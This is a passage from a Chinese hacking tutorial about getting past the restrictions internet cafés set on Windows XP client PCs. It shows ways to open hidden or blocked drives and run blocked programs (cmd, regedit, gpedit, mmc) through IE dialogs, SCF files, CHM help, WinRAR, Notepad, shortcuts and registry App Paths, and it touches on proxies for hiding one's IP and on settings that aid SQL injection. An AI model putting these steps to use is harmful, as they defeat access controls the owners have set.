发布网页程序的URL保持默认也可以，我改成了 `http://localhost:114/jr/`，这样好写些。下面项需要注意，你得先把 `tegoload.cab` 传到网上，这个文件在安装文件夹中，把它传到网上就可以了，然后在这里写上它在网上的地址，go on！在这一步中添加OCX控件使用默认，而DLL文件是可选的，因为如果你运行的程序需要动态链接库支持的话，这里就必须把程序的DLL文件加进去，这也是我选择精锐网吧辅助工具的原因了，尽量简单。然后下一步，就要完成了。这里没什么特别需要注意的，把文件名改一下，这样方便输入，我改成了 `jr.htm`，然后直接完成！稍微等一下，它会有一个建立网页的延迟，然后就会出来如图1-4-4。


说明你的网页已经制作成功了，想要测试网页可以到网页制作目录下的 `TegoWizardWebExpressProject\Release\jr.htm` 目录下双击 `jr.htm`。网页制作好了，下面要把制作好的文件传到网上去。需要上传的文件有制作目录下 `TegoWizardWebExpressProject\Release\` 和 `TegoWizardWebExpressProject\ReleaseActiveX\` 目录下的所有文件。把这些文件传到网上（要注意你存放文件的WEB路径），我这里直接传到了根目录，所以访问地址就是 `http://localhost:114/jr.htm`。如果浏览器支持 ActiveX 控件运行的话，它会弹出如图1-4-5的提示。

当然选安装了！然后稍微等一下，精锐网吧辅助工具就跳出来了，如图1-4-6。和本地使用它一样，速度也不错。而如果你很不幸，所在的网吧禁用了 ActiveX，就会出现这样的提示，如图1-4-7。节哀吧！如果你在的网吧支持 ActiveX 的话，这种方法无愧为最快最强大的破解方法！

## 2、潜入寂静岭

笔者去过一些做得很专业的网吧，它们是有开始菜单的，有桌面，有我的电脑，在资源管理器中可以使用右键，反正一些可以使客户感到方便的设置都是开启的；还有一些网吧甚至控制面板都可以被打开，就在开始菜单中。但是它们都有一个共同点，那就是对本地硬盘做了手脚，不排除是网吧管理软件作祟，也有很多是管理员手工设置的。它们表现为我的电脑中空空如也，或者只有某个盘，稍微可以些的网吧至少会给一个盘符的，或者可以看见所有硬盘的盘符，但是双击后系统给出提示阻止访问了。而对于系统盘网吧业主们则是不约而同地全部禁止访问或加隐藏。硬盘在网吧中简直就是一块禁区，也确实有必要担心，因为很多来网吧的用户都不具备专业的计算机知识，对于一些重要文件——比如配置文件或者动态链接库文件进行了误操作的话，会使应用程序无法正常运行。更严重的情况是碰了系统文件导致系统崩溃，所以系统盘都是清一色的禁止访问就可以理解了。

而对于我们来说系统盘是非常重要的，里面的很多程序和文档可以使我们熟悉 Windows 的操作和管理，获得很多关于 Windows 的知识，重要的是我们学习黑客知识是不能和系统分离的，而且我们下载保存程序的时候需要进入某个本地硬盘打开它的，所以进入硬盘对我们来说是必要的，偶岂爱破解？偶不得已矣……本节的目的是使读者可以顺利进入本地硬盘或直接运行某个应用程序，让大家在这荒无人烟的寂静岭天马行空！

网吧对硬盘的限制分为两类：隐藏盘符和禁止访问本地硬盘。它们可以针对所有驱动器也可以指定限制某个驱动器，而前者相对于后者来说更容易突破些，下面让我们来分别讨论下这两种情况。

### 2.1、在隐藏了所有本地驱动器的情况下

在透视网吧限制中，我们已经知道隐藏本地硬盘是利用注册表实现的，这个限制隐藏在资源管理器、标准对话框、地址栏的导航以及一些应用程序需要打开文件的地方的盘符。我已经说过，这些都只是表面功夫，我们使用一些很简单的方法就可以进入硬盘或者对某个隐藏的驱动器执行操作，比如搜索，比如打开IE，在地址栏输入 `c:\`，然后回车，是不是进入C盘了。

#### 2.1.1、IE的利用

国内网吧使用Windows作为客户端操作系统，那自然少不了IE了。网吧靠IE活，所以没有哪个网吧敢对它做太多手脚，利用IE的优势也就体现出来了。Windows XP下的IE6.0安全性暂且不说，功能算是够多的了，而这些服务很多可以被我们另类利用破解限制，我们将尝试所有可能，来看！

- **a、IE的打开文件**

打开IE，不用登录什么网站。在IE的“文件”菜单中有一个“打开”命令，它可以打开Internet上一个存在的网页文件，而通过“浏览”按钮我们可以指定它打开一个本地文件，如图2-1-1。


点击浏览，出现“打开文件”标准对话框。由于隐藏了本地硬盘，左侧“我的电脑”里看似空空如也，但在文件名处输入 `C:\` 后打开即可进入C盘。将“文件类型”切换为“所有文件”，即可继续进入目录并打开任意类型文件。


例如要运行程序，可进入 `SYSTEM32` 目录，直接在“文件名”输入 `mmc.exe` 并打开，即可启动控制台程序。这里主要利用了IE打开对话框可访问多类型文件的特性。


IE支持的文件类型非常多，某种意义上可作为打开后缀文件的入口。通过这些方式不仅可浏览网页，还可借助对话框能力绕过限制访问本地资源。

- **b、查看菜单**

IE的“查看”菜单——“工具栏”——“自定义”下有个好玩的东西，如图2-1-3。在“可用工具栏按钮”里选中“文件夹”，然后点击“添加”。


这时候你的IE的工具栏上已经有一个文件夹的图标了，点击它，我们就把IE变成了资源管理器了，如图2-1-4。

这时候在地址栏中输入盘符就可以进入对应硬盘，和在IE中是一样的。而使用“查看”菜单——“浏览器栏”——“文件夹”和在工具栏上点击右键添加文件夹和上面的效果是一样的。


- **c、收藏菜单**

IE“收藏”的树状文件保存在 `C:\Documents and Settings\UserName\Favorites` 下，其中 `UserName` 为当前的登录用户名。其下一般都会有“链接”文件夹，如图2-1-5。

双击那个“链接”的图标，就进入了收藏目录的链接文件夹了，然后使用后退或者向上就可以到别的文件夹玩了。还有一种方法，我们在任意一个网页链接上点击右键，选择属性，出现如图2-1-6。


我们把URL改成我们想要进入的文件夹，比如 `C:\WINDOWS\SYSTEM32`，然后确定。这时候访问这个链接IE就直接把我们引导进 `SYSTEM32` 目录了，哈！简直是老鼠掉到米缸里。

而如果在IE中不可以使用鼠标右键，那也没关系。点击“收藏”——“整理收藏夹”，在右侧的链接中选择一个链接，然后左侧就会出现一个选项：“允许脱机使用”，这是个勾选的选项，选择后在下面就会出来“属性”按钮了，如图2-1-7。


其实还可以直接拖拽文件夹使当前的网页变成一个本地收藏目录。在“收藏”菜单下的任意一个文件夹的图标上按住鼠标不放，然后把图标拖到IE的网页显示区域，是不是当前网页变成一个本地目录了？

其实利用“收藏”菜单可以显示 `C:\Documents and Settings\UserName\Favorites` 目录下的所有文件和文件夹的性质，我们可以构造很多类型的文件保存到这个目录中，使用的时候在“收藏”菜单中点击就可以了，非常方便。这里我再教大家一种文件的使用方法，它是SCF文件。也许大家对这个文件有些陌生，其实这个东西大家也许经常使用呢！在任务栏的快速启动栏中经常出现的“显示桌面”就是这个类型的文件。

SCF文件是“WINDOWS资源管理器命令”文件，它也是一种可执行文件。该类型文件由 Windows Explorer Command 解释，标准安装包括下面3个这类型的文件：Explorer.scf（资源管理器）、Show Desktop.scf（显示桌面）和 View Channels.scf（查看频道），我们只学习前两个文件的编写。

SCF文件可以以文本形式打开查看，就是说编写了代码后无须编译SCF文件就可以执行了。说是编写其实只有几行代码而已，很简单的，先来看资源管理器的编写，代码如下：

```ini
[Shell]
Command=2
IconFile=explorer.exe,1
[Taskbar]
Command=Explorer
```

利用IE的“查看源文件”获得一个记事本，把上面的代码写入并保存为任意的 `.scf` 文件，我就直接保存到 `C:\Documents and Settings\UserName\Favorites` 了，使用起来方便。其中 `IconFile=explorer.exe,1` 指明文件的图标，`Command=Explorer` 指这SCF文件完成的功能，这里是打开资源管理器。下面给出显示桌面的代码：

```ini
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

“显示桌面”的功能可以帮助我们突破网吧管理软件虚拟的桌面而重现真实的桌面，在隐藏+禁止访问硬盘的情况下，桌面似乎是最直接的保存文件的地方。另外“查看频道”的代码：

```ini
[Shell]
Command=3
IconFile=shdocvw.dll,-118
[IE]
Command=Channels
```

- **d、工具菜单**

有的网吧可能安装有 MSN，可能是有使用需求，也可能是安装系统时候安装的老版本。而不管怎么样，MSN是会在IE的工具栏添加快捷按钮的，或者在“工具”菜单下启动它，名称为 Messenger。打开MSN后选择“文件”菜单的“打开接收的文件”命令，就进入了MSN保存接收到的文件目录，默认为 `C:\Documents and Settings\UserName\My Documents\我接收到的文件`。打开“工具”菜单下的“Internet选项”，在“常规”选项卡的“Internet临时文件”区域选择设置，在弹出的对话框中选择“查看文件”，就进入了IE缓存目录，默认为 `C:\Documents and Settings\UserName\Local Settings\Temporary Internet Files`；点击“查看对象”按钮就进入了 `C:\WINDOWS\Downloaded Program Files` 文件夹。

而在浏览一个包含图片的网页的时候，我们可以在图片上点击右键，然后选择“进入图片收藏”，就进入了 `C:\Documents and Settings\UserName\My Documents\My Pictures` 目录了。


#### 2.1.2、其他方法

最常用的方法要属直接在“运行”中输入路径了，当然前提是“运行”没有被禁止；而如果可以使用鼠标右键的话，你可以在桌面的快捷方式上点击右键，选择“属性”。快捷方式是指向一个可执行文件的，因此它的属性中有一项“指向对象”。我们点击“查找目标”按钮就可以到达指向的应用程序所在目录。


系统的搜索程序也可以被用来进入某盘。打开“搜索”，选择“所有文件和文件夹”，由于隐藏了所有本地硬盘，所以寻找位置中可能没有盘符；可以手工输入（比如 `C:\`）然后搜索。搜索结果出来后，这时“搜索”的右窗口就是一个资源管理器了，可以随意进入某个目录或者文件。或者更简单地，直接搜索想运行的程序（比如 `MMC.EXE`），双击运行后再通过“查看”等菜单进入相关位置。


“我的视频文件夹”就会进入到 `C:\Documents and Settings\UserName\My Documents\My Videos` 目录，如果你有机会进入控制面板的话，来到这里：**管理工具——计算机管理**，在计算机管理中打开存储目录树，选择“磁盘管理”，然后在右窗口的某个硬盘上点击右键，选择“打开”就进入了该盘，如图2-1-12。

### 2.2、在禁止访问所有本地驱动器的情况下

这种方法彻底杜绝了我们访问本地硬盘，除非先破解了这个限制，否则无法进入驱动器及其下的任何目录。但是我们是可以通过某种方法直接运行某个程序的，这也是必然的。因为如果这个限制会影响应用程序的运行的话，微软的这个设计就将是失败的，就不会被应用到系统策略中了。我们知道这种限制的弱点，下面就要找哪些地方可以直接运行程序了。

#### 2.2.1、利用“运行”

我们平常在使用“运行”打开一个系统自带的程序的时候，只要输入名称就可以了，非常方便。这是怎么实现的呢？我们下载的程序可不可以直接在“运行”中调用呢？答案是肯定的。先来说说那些可以直接运行的系统程序吧。这些程序大部分是在 `%systemroot%\system32` 目录下定义的（要感谢我那只贼猫兄弟），这个目录下的所有文件都可以在无路径的情况下直接运行；比如运行 `gpedit.msc` 就会获得组策略编辑器。大部分类型的文件必须要带文件的扩展名，以下几个扩展名除外：`exe`、`com`、`bat`、`cmd`（这是笔者自己试验的结果）以及文件夹，它们只要输入文件名（目录名）就可以被运行（打开）了。而如果在该目录下存在同名的以上面几个后缀为扩展名的文件，则要根据优先级判断运行哪个文件了，其优先级如下：`com > exe > bat > cmd > 文件夹`。

当然我们也可以不使用系统的这个优先级别，而这就需要用到注册表了。定义哪个程序可以在“运行”中直接被调用还可以使用注册表设置，在这个项下：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths`。这个项下有很多子项，这些项的名称即为在运行中输入的名称，可以不带扩展名。具体是怎么实现的呢，让我们自己做一个。在 `App Paths` 项下新建一个项 `Fornever.exe`，然后把 `Fornever.exe` 项下的字符串（默认）的值设置为 `C:\WINDOWS\NOTEPAD.EXE`，如图2-2-1。


保存后在“运行”中输入 `fornever`，无所谓大小写，是不是记事本打开了？要注意的是项的名称一定要以 `.EXE` 扩展名结束，而指定的程序是什么类型的就随你喜欢了。比如我把刚才的字符串值修改为 `C:\WINDOWS\SYSTEM32\GPEDIT.MSC`，在“运行”中输入 `fornever` 就会获得组策略编辑器。明白了吧，而如果你的字符串值所指的文件路径有错误，系统同样会提示你 Windows 找不到文件的。这样的话你就可以打造自己的“运行”项了。这里给出“运行”中支持的只需要文件名的系统程序列表，根据系统差异也许有的程序不支持。

| 命令 | 说明 |
|---|---|
| winver | 检查 Windows 版本 |
| wupdmgr | Windows 更新程序 |
| wscript | Windows 脚本宿主设置 |
| write | 写字板 |
| winmsd | 系统信息 |
| wiaacmgr | 扫描仪和照相机向导 |
| winchat | XP 自带局域网聊天 |
| msconfig | 系统配置实用程序 |
| mplayer2 | 简易 Windows Media Player |
| mspaint | 画图板 |
| mstsc | 远程桌面连接 |
| mplayer2 | 媒体播放器 |
| magnify | 放大镜实用程序 |
| mmc | 打开控制台 |
| mobsync | 同步命令 |
| dxdiag | 检查 DirectX 信息 |
| drwtsn32 | 系统医生 |
| dcomcnfg | 打开系统组件服务 |
| ddeshare | 打开 DDE 共享设置 |
| dvdplay | DVD 播放器 |
| notepad | 打开记事本 |
| nslookup | 网络管理的工具向导 |
| ntbackup | 系统备份和还原 |
| narrator | 屏幕“讲述人” |
| syncapp | 创建一个公文包 |
| sysedit | 系统配置编辑器 |
| sigverif | 文件签名验证程序 |
| sndrec32 | 录音机 |
| shrpubw | 创建共享文件夹 |
| syskey | 系统加密（加密后不可解开） |
| sndvol32 | 音量控制程序 |
| tsshutdn | 60秒倒计时关机命令 |
| tourstart | XP简介（安装完成后出现的漫游XP程序） |
| taskmgr | 任务管理器 |
| eventvwr | 事件查看器 |
| eudcedit | 造字程序 |
| explorer | 打开资源管理器 |
| packager | 对象包装程序 |
| progman | 程序管理器 |
| regedit | 注册表编辑器 |

| 程序 | 说明 |
|---|---|
| regedt32 | 注册表编辑器 |
| cmd | CMD 命令提示符 |
| control | 控制面板 |
| calc | 启动计算器 |
| charmap | 启动字符映射表 |
| cliconfg | SQL Server 客户端网络实用程序 |
| clipbrd | 剪贴板查看器 |
| conf | 启动 NetMeeting |
| cleanmgr | 垃圾整理 |
| osk | 打开屏幕键盘 |
| odbcad32 | ODBC 数据库管理器 |
| logoff | 注销命令 |
| iexpress | 木马捆绑工具，系统自带 |
| utilman | 辅助工具管理器 |

除了上面这些程序外，很多命令行程序（或者说命令）也可以直接在“运行”中调用，比如 Nslookup、net、mem 等。它们大部分是命令行下的网络程序。但不是所有的命令都可以在“运行”中运行，比如 start、copy 等。一般命令行下的网络程序都可以被调用。命令提示符下亦然，它可以直接使用名称运行一些系统程序，但不是所有能在“运行”中直接运行的程序在命令提示符下都可以直接运行，命令提示符不受那个注册表项的影响。

说了这么多，就是为了让你明白原理，掌握一个技巧。记住列表中的某个对你破解有利的程序名称，也许会给你的破解带来意想不到的效果。


## 2.2.2、利用 IE

在前面我们利用 IE 进入任意目录，其实只要在前面的某个步骤上稍加修改，就同样可以突破禁止访问硬盘而直接访问某个已存在的文件。在 IE 的“文件”菜单——“打开”的地方，我们直接输入一个程序的路径以及名称，比如组策略编辑器，如图 2-2-2。确定后就会顺利得到它了。

同样地，在“收藏”菜单下，我们把某个链接属性中的 URL 改为 `C:\windows\system32\gpedit.msc`，然后打开这个链接，可以达到同样的目的。不同的是后者途中会出来个“文件下载”的对话框，如图 2-2-3。看来这样访问硬盘中的文件的话，IE 会按下载处理，这里只要直接打开就可以了。


在 IE 的“帮助”菜单，一直隐藏着一个世外高手，我还没有来得及提到。其实所有的 CHM 文件（已编译的 HTML 文件）都有同样的功能，这些以 .chm 为扩展名的文件被 `C:\WINDOWS\HH.EXE` 执行，这个程序实际上相当于一个小型的网页浏览器，因此也可以被我们利用。点击“帮助”菜单下的“目录与索引”，然后点击窗口左上角的控制按钮，出现一菜单，如图 2-2-4。


选择其中的“跳至 URL”，在“跳至该 URL”中输入 `C:\windows\system32\mmc.exe`，确定后就会出现“文件下载”的提示，同样是直接打开就可以了，不用管 IE 的安全警告，这样就获得了 MMC。不要小看“帮助”哦，它的功能还不止这些！

## 2.2.3、利用 WinRAR

WinRAR 是知名的文件压缩程序，通常我们在解压缩的时候会发现它的解压缩文件目录就像一个浏览器一样，还可以通过那个向上的按钮到上一个目录查看文件。的确如此，但是在隐藏硬盘的情况下，WinRAR 的文件浏览功能的弱点就暴露出来了：即使手工输入某个存在的路径，WinRAR 也没有任何响应，但是它可以被我们用在更强大的方面！

首先打开任意一个 WinRAR 压缩文件，点击工具栏上的“添加”按钮，如图 2-2-5。在弹出的对话框中选择“文件”选项卡，在“要添加的文件”中写 `C:\windows\system32\mmc.exe`，如图 2-2-6。


图 2-2-6 用工具打开文件


图 2-2-7 记事本读取策略文件代码

然后确定就会在当前的压缩文件中多出一个 mmc.exe。接下来干什么不用我教你吧！

## 2.2.4、利用记事本

在惊叹了 IE 的强大功能后，我开始尝试其他有打开功能的程序。在使用记事本打开组策略编辑器的时候，意外的事情发生了，如图 2-2-7。

我都有点不相信自己的眼睛了，原来 MSC 文件是文本格式的！为了保险，我又试验了其他几个同类型文件，最终证实了我的发现。然后一个想法马上涌上心头：先想办法获得一个文本文档，这是绝对能办到的；然后用热键 Ctrl+O 打开文件，在文件名处写 `C:\windows\system32\gpedit.msc`，如图 2-2-8。

然后打开就获得了图 2-2-7 的代码。这时候直接“文件”→“另存为”，默认文件名就是 gpedit.msc，我们不用修改，保存到桌面上。然后到桌面双击运行它，组策略编辑器是不是又出现了呢？这里需要注意：MSC 文件代码不可以复制粘贴后另存，只能直接在该文件上保存到其他位置。


图 2-2-8 用记事本保存新组策略

## 2.2.5、利用快捷方式

快捷方式是 Windows 的一个非常实用方便的功能，用户不必进入要执行的应用程序目录，即可通过快捷方式执行相应程序。

因此我们可以在一个可进入的目录中建立快捷方式，或者进入一个文件夹（前提是有访问权限）。这里以打开命令提示符为例，而我们可访问到的目录是桌面。

在桌面上点击右键，选择“新建”里的“快捷方式”，如图 2-2-9。在弹出的“创建快捷方式”对话框中输入 cmd，如图 2-2-10。然后“下一步”直到完成，在桌面上就会出现命令提示符的快捷方式了。

由于命令提示符是系统程序，所以只写名称系统会自动识别到 `%systemroot%\system32\cmd.exe`；而对于其他程序通常需要填写可执行文件完整路径。对于文件夹快捷方式，则在“项目位置”里输入文件夹路径即可。


图 2-2-9 桌面创建快捷方式


图 2-2-10 输入 cmd

## 2.3、小结

前面的方法中多次提到使用搜索或运行这些系统程序，而很多时候即便是打开它们都很困难，更别说做其他事情了。这些限制确实存在，也分为隐藏和禁止访问两种，和限制本地硬盘类似。这时就要看你的运气：如果只是单纯隐藏，那么仍有办法通过快捷方式等手段运行。按组合键就可以打开“搜索”或“运行”了。笔者总结的 Windows XP 下的快捷键，同时附了些其他常用的快捷键：

| 快捷键 | 功能 |
|---|---|
| F1 | 帮助 |
| F2 | 重命名 |
| F3 | 查找文件 |
| F5 | 刷新 |
| Win | 开始菜单 |
| Win+F | 查找所有文件 |
| Win+D | 桌面与当前界面的切换 |
| Win+R | 运行 |
| Win+E | 资源管理器 |
| Win+Break | 系统属性 |
| Win+Ctrl+F | 查找计算机 |
| Win+Tab | 在任务栏上的按钮间循环 |
| Alt+F4 | 关闭当前窗口或退出程序 |
| Alt+Tab | 切换正在运行的窗口程序 |
| Alt+菜单上带下划线的字母 | 执行菜单里相应的命令 |
| Alt+Space | 显示当前窗口的系统菜单 |
| Alt+Enter 或 Alt+双击 | 打开选定项目的属性 |
| Alt+PrintScreen/SysRq | 抓取当前窗口图片并保存到剪贴板 |
| Ctrl+W | 结束当前浏览器窗口 |
| Ctrl+Esc | 开始菜单 |
| Ctrl+A | 全选 |
| Ctrl+Z | 撤销 |
| Ctrl+X | 剪切 |
| Ctrl+C | 复制 |
| Ctrl+V | 粘贴 |
| Ctrl+N | 新建文件 |
| Ctrl+O | 打开文件 |
| Ctrl+S | 保存文件 |
| Ctrl+F4 | 关闭多文档界面（MDI）程序中的当前窗口 |
| Shift+F10 | 显示所选项目的快捷菜单，即右键菜单 |
| Shift+Delete | 彻底删除 |

而如果做的限制是禁止访问的话，那只有先破解了。（不知道 Win 键吗？就是上面有一个微软小旗子的那个键啦！）总的来说，用在禁止访问硬盘的方法在隐藏硬盘的限制下都是可以使用的，而倒过来却不一定行。在网吧中常用的几个软件的破解利用方法大家一定要掌握，尤其是 IE 相关的，尤为重要。很多时候，我搞网吧只用 IE 就可以了。

## 3、From The Inside

Windows 在全球拥有大批忠实的使用者，它作为计算机操作系统的首选，不仅仅是因为它友好的图形用户界面，还有它强大的功能。微软一向是哪个领域都要插一手的，这也许和它是提供操作系统的厂商有关吧。因此在我们的 Windows 中各种程序琳琅满目，这些程序指的是系统安装时默认安装的程序。这些程序在完成它们的本职工作外，还可以被我们利用搞一些副业，呵呵！笔者现在自觉有点搜刮狂的意味了～总之呢，这节就是利用系统自带的功能或程序（它们大多是系统程序）破解网吧限制。既然微软好心给我们提供了好东西，我们怎么好拒绝呢？更何况使用第三方程序还需要下载呢！

而需要注意的是，类似于隐藏硬盘和禁止访问硬盘那样，对于一些应用程序同样存在这样的情况。对于隐藏，当然不是隐藏文件本身，而是隐藏某个下拉菜单或选项卡中的某个功能；Windows 的这些功能往往对应着系统盘中的某个文件。而限制访问则是针对文件进行了访问限制，使之无法执行并给出一个提示。对于隐藏我们可以从其他途径执行程序；而如果是禁止访问了，则必须先解除限制，否则始终无法访问。不论是隐藏还是限制访问，都是通过修改注册表实现的，前面我们学习组策略的时候已经讲到了，而本节将就限制应用程序的执行讲解一种新的方法。

有一点你要知道，Windows 中的很多程序（或者说功能）之间都是相互有联系的，这也是我们学习本节的重要原因之一。你无法使用程序 A 解决的问题，也许程序 B 可以完成；这样在执行 A 处执行 C 不行，可以从 B 处执行……more, even more! 让我们马上进入本节的学习吧！From The Inside, From Windows。

## 3.1、应用控制面板

控制面板实际上可以看作一个工具集合，这些工具提供给用户更改计算机设置。控制面板中大多数项目以 `.cpl` 格式存在于 system32 目录下，文件名和控制面板对应选项笔者总结如下。可能由于软件安装的不同会有差异，但是大部分是一致的。

| 文件名 | 对应选项 | 文件路径 |
|---|---|---|
| sapi.cpl | 语音属性 | `C:\Program Files\Common Files\Microsoft Shared\Speech` |
| SMax4.cpl | SOUNDMAX 控制面板 | `C:\Program Files\Analog Devices\SoundMAX` |
| access.cpl | 辅助功能选项 |  |
| appwiz.cpl | 添加或删除程序 |  |
| desk.cpl | 显示属性 |  |
| firewall.cpl | Windows 防火墙 |  |
| hdwwiz.cpl | 添加硬件向导 |  |
| inetcpl.cpl | Internet 属性 |  |
| intl.cpl | 区域和语言选项 |  |
| irprops.cpl | 无线连接 |  |
| joy.cpl | 游戏控制器 |  |
| main.cpl | 鼠标属性 |  |
| mmsys.cpl | 声音和音频设备属性 |  |
| ncpa.cpl | 网络连接 |  |
| netsetup.cpl | 网络安装向导 |  |
| nusrmgr.cpl | 用户账户 |  |
| nvtucpl.cpl | NVIDIA 设置 |  |
| odbccp32.cpl | ODBC 数据源管理器 |  |
| powercfg.cpl | 电源选项属性 |  |
| sysdm.cpl | 系统属性 |  |
| telephon.cpl | 位置信息 |  |
| timedate.cpl | 日期和时间属性 |  |
| wscui.cpl | Windows 安全中心 |  |
| wuaucpl.cpl | 自动更新 |


除了前两个外，其他控制面板项目均在 `%SYSTEMROOT%\SYSTEM32` 目录下，而有的项目却没有实体文件，比如“文件夹选项”。我们平常打开这些项目进行设置的时候只是用鼠标，而这些被描述为控制面板扩展的文件究竟是用什么程序打开的呢？其实它们不是由哪个程序打开的，它们是使用 Rundll32.exe 调用一个 DLL 文件执行 API 函数来打开的，这个 DLL 文件很多时候是 **SHELL32.DLL**。

> **【什么是 API，什么是 DLL】**  
> API：Application Program Interface，即应用程序接口，是提供给使用者能够和某个应用程序交互的功能；在 Windows 中表现为函数，我们可以使用这些函数编写出应用于 Windows 操作系统的程序。  
> DLL：Dynamic Link Library，动态链接库。Windows 中存在很多 DLL 文件，即动态链接库文件。这些文件提供了大量的 API 函数供其他应用程序使用，并且一个 DLL 文件可以同时被多个应用程序共享资源。使用动态链接库文件可以简化 Windows 下的程序编写。

我们知道了控制面板扩展文件是需要使用 API 函数来运行的，那具体怎么运行呢？我们打开资源管理器，选择“工具”菜单—“文件夹选项”，在“文件类型”选项卡中找到 CPL 类型文件。点击“高级”按钮，在弹出的对话框中选中“用控制面板打开”，然后点“编辑”按钮。

```
rundll32.exe shell32.dll,Control_RunDLL "%1",%*
```

我们看到在“用于执行操作的应用程序”一栏内为一行命令，这便是执行 DLL 文件中 API 的方法（DLL 文件不可以直接执行，需要使用 Rundll32.exe）。`%1` 为第一个变量，即要打开的控制面板项目；最后的参数为打开项目的第几个子选项，从 0 开始为第一个，默认通常为第一个。由于这些控制面板扩展文件大部分位于 SYSTEM32 目录下，所以我们也可以直接在“运行”中使用文件名打开它们，只不过前者的打开方式更灵活。控制面板不论是对于系统管理员还是对于黑客都是相当重要的，有一个基本的了解。

接下来我将一些会涉及到我们破解或做其他活动的控制面板选项以及具体用法一一列出，希望你能灵活应用它。

### 3.1.1、Internet 选项

### a、安全选项卡

点击“自定义级别”按钮，我们可以详细地设置 IE 的各安全选项，这其中最重要的就要数“允许文件下载”了，其次还有对 ActiveX 控件和插件、Java 小程序脚本的允许与禁止控制，如图 3-1-3。

一般“自定义级别”都是被禁止的（按钮变灰），如果你有机会进入这个选项的话，那突破下载不在话下。“自定义级别”旁边有个“默认级别”按钮，默认指的是中级，而中级安全级别是允许下载的。所以如果有机会动这个按钮的话，也是可以突破下载的。


### b、连接选项卡

在该选项卡下的“局域网设置”中，我们可以为 IE 设置代理服务器。使用代理服务器是一种局域网连接 Internet 的方案，所有主机可以通过一台设置为代理服务器的计算机连接 Internet，这在一些小型的网吧很常见。通常为 IE 设置代理是为了提高访问某个地域的主机（通常是一个网站）的速度；而在安全领域，设置代理常被用来作为隐藏自己踪迹（IP）的手段，因为设置了代理后，任何网站记录的 IP 将是代理服务器的 IP，而不是你的真实 IP。如图 3-1-4。

我们激活“代理服务器”区域，在地址和端口中输入代理服务器的 IP 和端口。代理服务器怎么获得呢？呵呵，在 NOHACK 的主页上不就有吗？

### c、高级选项卡

在手工注入的时候，必须要接触到这个选项，其中有一项“显示友好的 HTTP 错误信息”，要把前面的勾去掉，否则在使用单引号或者其他语句进行 SQL 注入的时候就得不到有价值的错误信息了。

### 3.1.2、安全中心

在安全中心中，用户可以设置 Windows XP 自带的防火墙和自动更新，还有一项最重要的是 Internet 选项。很多时候在 IE 的工具栏中“Internet 选项”会被隐藏，这时候你可以尝试从这里进入，它指向的是“Internet 选项”的安全选项卡，也可以转换到其他选项卡。另外，“安全中心”右侧窗口的蓝色带下划线的链接指向的是“帮助与支持中心”，请注意。

### 3.1.3、管理工具

管理工具中包含了以下几个工具：本地安全策略、服务、计算机管理、事件查看器、数据源（ODBC）、性能和组件服务。我们将就其中几个和安全相关的项进行讲解。

### a、本地安全策略

本地安全策略是 Windows 中一个功能强大的安全设置工具，它提供了有关账户的登录、审核、密码以及系统和软件选项的安全设置，用户可以利用这个工具灵活地设置适合自己的安全策略。在网吧涉及到的用户登录设置并不会太多，我们关心的是软件的安全策略。在本地安全策略中允许用户对软件的运行设限，这不是我们想看到的，那我们就来看看它都可以怎么样设置。

在“安全设置”——“软件限制策略”下，可以灵活地对某种类型的文件设置访问限制，如图 3-1-5。

在“指定的文件类型”下，我们可以设置允许/限制的文件类型，而系统本身有一个默认文件类型列表，如图 3-1-6。

我们可以在下面的“文件扩展名”中自定义允许/限制的文件类型，比如我想限制控制面板扩展类型文件，在文本框中输入 cpl 然后点击“添加”就可以了，而至于如何允许/限制马上就讲到了。

在“强制”中我们可以粗略设置该软件安全策略对哪些文件生效，笔者试验后感觉这个并不好使，不推荐；在该项下还可以设置该安全策略对哪些用户有效，如图 3-1-7。


## 11 网吧破解新大陆

接下来我们就可以做限制了，双击图3-1-5中的“其他规则”，我们将看到一些系统已经定义好的限制对象名称，它们默认都是允许的，除非你以前对其设置过，如图3-1-8。

那个名称好像一个注册表路径，实际上它指定的是一个本地硬盘中的路径或文件对象。比如 `%HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot%` 指的是 Windows 目录，而在路径后面加上 `*.exe` 意思是限制 Windows 目录下所有 EXE 文件。`%HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ProgramFilesDir%` 则指的是系统盘下的程序文件目录 Program Files。如果名称表示的是一个路径的话，这个规则将对在“指定的文件类型”中指定的文件做允许/不允许设置，如图3-1-9。

而如果规则名称是类似 `*.exe`、`*.bat` 结尾的，则只对 exe 和 bat 批处理文件生效。管理员在设置软件安全策略的时候通常会结合这两个规则。

除了使用系统自带的规则外，我们还可以新建规则，这给做安全策略带来了更大的灵活性。在右窗中点击右键，选择“新路径规则”，如图3-1-10。比如我想禁止命令提示符，在“路径”中输入 `CMD.exe`，禁止注册表编辑器则输入 `regedit.exe`，然后把安全级别选择为“不允许”则会禁止它们运行。注意文件名一定要带扩展名。指定前面说过的 SYSTEM32 目录下的系统程序可以不必指定文件路径，而非系统程序则必须指定路径，比如 `C:\Program Files\TTPlayer\TTPlayer.exe`，如图3-1-11。

这时候不论在什么地方运行千千静听，包括快捷方式都会出现提示。大家可以看出提示框和组策略被限制后的提示是不同的。对设置了规则的类型文件（比如 EXE），对需要使用该应用程序打开的文件也会被限制。我们举个例子，组策略编辑器依靠控制台运行，组策略扩展名是 `.msc`，而控制台则是 exe 应用程序。如果把 `MMC.exe` 禁止了，那么在“运行”中输入 `gpedit.msc` 将同样出现类似提示。除了禁止某个文件外，我们还可以对某个路径设置规则，比如 `C:\`，注意这个限制只会对路径下的文件有作用，并不会限制访问这个路径。

### b. 服务

服务是 Windows 中一种特殊的启动应用程序的方法，这些应用程序大部分是为了支持 Windows 可以正常运行的系统程序；有一小部分是在安装其他软件时软件为自己做的服务。服务根据启动类型可以随系统启动而启动（自动时），也可以手动启动一个服务。服务的一个重要特性就是会完全地隐藏在后台运行，这是很多黑客都梦寐以求的功能，但这并不意味着系统执行的程序无进程。我们使用管理工具中的“服务”可以查看系统中已存在的（注意是已存在的，不是已启动的）所有服务的详细信息，包括服务名称、显示名称、描述、可执行文件路径、启动类型和同其他服务的依存关系等。关于服务的更详细的知识将会在后面的章节中讲到，这里做一个预告！

### c. 计算机管理

